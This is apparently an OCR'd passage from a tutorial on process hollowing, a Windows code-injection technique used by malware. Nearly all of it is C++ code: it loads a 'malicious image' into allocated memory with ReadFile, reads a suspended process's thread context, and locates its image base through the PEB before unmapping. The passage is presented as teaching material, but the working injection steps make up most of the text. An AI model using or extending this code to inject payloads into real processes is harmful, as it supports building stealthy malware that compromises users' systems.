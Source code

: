 ```
DWORD maliciousFileSize = GetFileSize(
	hMaliciousCode, // Handle of malicious image
	0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
	NULL,
	maliciousFileSize, // File size of malicious image
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x04 // Enables read/write access (PAGE_READWRITE)
);
```

Now that memory is allocated to the local process, it must be written. Using the information obtained from previous steps, we can use ReadFile to write to local process memory.

```
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
	hMaliciousCode, // Handle of malicious image
	pMaliciousImage, // Allocated region of memory
	maliciousFileSize, // File size of malicious image
	&numberOfBytesRead, // Number of bytes read
	NULL
	)) {
	cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
	TerminateProcess(target_pi->hProcess, 0);
	return 1;
}

CloseHandle(hMaliciousCode);

```

At step three, the process must be “hollowed” by un-mapping memory. Before un-mapping can occur, we must identify the parameters of the API call. We need to identify the location of the process in memory and the entry point. The CPU registers EAX (entry point), and EBX (PEB location) contain the information we need to obtain; these can be found by using GetThreadContext. Once both registers are found, ReadProcessMemory is used to obtain the base address from the EBX with an offset (0x8), obtained from examining the PEB.

```
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress; 
ReadProcessMemory(
	target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
	(PVOID)(c.Ebx + 8), // Pointer to the base address
	&pTargetImageBaseAddress, // Store target base address 
	sizeof(PVOID), // Bytes to read 
	0 // Number of bytes out
);

```
